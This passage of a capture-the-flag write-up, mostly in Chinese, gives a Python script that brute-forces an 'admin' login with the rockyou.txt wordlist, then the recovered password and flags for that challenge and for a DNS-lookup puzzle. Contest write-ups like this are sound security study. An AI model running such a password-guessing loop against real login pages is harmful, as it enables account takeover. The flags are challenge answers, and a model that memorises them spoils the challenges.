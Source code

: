     def send_request():
        f = open('/usr/share/wordlists/rockyou.txt')

        while True:
            password = f.readline().replace('\n', '')
            data = {
                'user' : 'admin',
                'pass' : password
            }

            result = s.post(url, headers=set_header, data=data).text
            if 'error' not in result:
                print(result)
                break
            else:
                print(password)

    if __name__ == '__main__':
        send_request()
    ```
* 密碼是 `rockyou`
* flag : `SWCTF{4R3_Y0U_4_R34L_4DM1N?}`

## Misc

### 逢甲 - Misc

#### Real Google
> 488
> 這個網域應該是真的 Google，在上面輸入帳號密碼應該沒問題。可惜似乎連不上 ...
> thisisrealgoogle.tw
* 滿有意思的，用 dig 瘋狂挖資料就可以拿到 flag 了
* payload : `dig thisisrealgoogle.tw sshfp`
* flag : `SWCTF{D1G_iNT0_THE_dNS}`
